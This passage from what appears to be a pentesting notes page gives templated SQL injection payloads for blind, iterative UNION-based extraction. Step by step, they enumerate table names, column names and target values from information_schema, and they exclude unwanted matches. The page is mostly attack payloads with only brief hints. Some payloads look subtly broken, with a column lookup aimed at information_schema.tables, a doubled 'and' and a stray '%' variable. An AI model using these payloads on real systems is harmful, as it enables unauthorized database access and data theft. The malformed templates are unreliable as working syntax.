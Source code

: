 {% hint style="info" %}
`$found` is the union value that have been caught in previous step

`$letter` is the value that return true in each iteration
{% endhint %}

***

* Find Table name by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name LIKE 'a%';
#Repeat until found all table name
```
{% endcode %}

***

* Find column by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE 'a%';
#Make iterative process to find column name
```
{% endcode %}

***

* Find objective value

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' FROM $table_found WHERE %column_found LIKE 'a%';
#Make iterative process to find value needed
```
{% endcode %}

***

* &#x20;Handle of value exceptions

{% hint style="warning" %}
If in any point of iteration you found a value that you don't need to get you must exclude it to restringe your injection
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and and tablename != $notobjective and $table_name LIKE 'a%';
```
{% endcode %}

{% hint style="info" %}
`$notobjective`refers to the value that we found but we don't need
{% endhint %}

